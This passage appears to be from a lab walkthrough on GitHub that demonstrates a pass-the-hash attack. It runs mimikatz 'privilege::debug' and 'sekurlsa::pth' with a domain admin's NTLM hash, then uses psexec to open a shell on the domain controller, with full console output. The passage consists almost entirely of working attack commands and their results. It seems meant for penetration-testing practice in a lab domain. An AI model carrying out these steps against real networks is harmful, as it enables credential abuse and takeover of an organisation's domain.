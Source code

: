 ## 2.2. mimikatz - sekurlsa::pth
### 2.2.1. Domain account
- On mimikatz: run `privilege::debug` followed by `sekurlsa::pth`
- The `sekurlsa::pth` will spawn a new cmd window

```console
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:domainadmin /domain:lab.vx /ntlm:e19ccf75ee54e06b06a5907af13cef42
user    : domainadmin
domain  : lab.vx
program : cmd.exe
impers. : no
NTLM    : e19ccf75ee54e06b06a5907af13cef42
  |  PID  2536
  |  TID  7400
  |  LSA Process is now R/W
  |  LUID 0 ; 10105231 (00000000:009a318f)
  \_ msv1_0   - data copy @ 00000129DC857510 : OK !
  \_ kerberos - data copy @ 00000129DC9DA8C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 00000129DC9D00E8 (32) -> null
```

- Connect to the target machine in the new cmd window

```console
C:\Windows\system32>whoami
lab\mike

C:\Windows\system32>hostname
CLIENT

C:\Windows\system32>psexec \\dc cmd.exe

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
lab\domainadmin

C:\Windows\system32>hostname
DC
```
